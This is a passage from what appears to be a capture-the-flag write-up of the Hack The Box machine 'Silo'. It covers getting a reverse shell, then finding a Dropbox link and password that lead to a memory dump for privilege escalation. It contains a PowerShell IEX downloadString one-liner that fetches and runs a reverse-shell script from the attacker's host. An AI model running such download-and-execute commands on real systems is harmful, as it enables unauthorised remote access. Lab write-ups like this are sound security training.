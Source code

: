![Shttps://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%203.png](Shttps://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%203.png)

We need to start `python` server inorder to download it to the box. Started my `netcat` listener too.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/5.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/5.png)

Now its time to upload the module to the box

```bash
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/Invoke-PowerShellTcp.ps1')
```

We got the shell

![Shttps://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%204.png](Shttps://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%204.png)

## Getting User Phineas

There is file in User directory and it contains a DropBox link and its password

```bash
PS C:\Users\Phineas\Desktop> download "Oracle issue.txt"
Support vendor engaged to troubleshoot Windows / Oracle performance issue (full memory dump requested):

Dropbox link provided to vendor (and password under separate cover).

Dropbox link 
https://www.dropbox.com/sh/69skryzfszb7elq/AADZnQEbbqDoIf5L2d0PBxENa?dl=0

link password:
?%Hm8646uC$
```

When I tried to open that, it shows me Incorrect Password.

![Shttps://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%205.png](Shttps://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%205.png)

After sometime, I viewed the same file using the web and it seems there is no `?` in the beginning.

![Shttps://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%206.png](Shttps://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%206.png)

So I logged in with that pasword and there is a file.

![Shttps://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%207.png](Shttps://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%207.png)

## Privilege Escalation by Memory Dump

The file we got from DropBox contains memory dump of the machine, we can use a tool called volatility to analyze it.
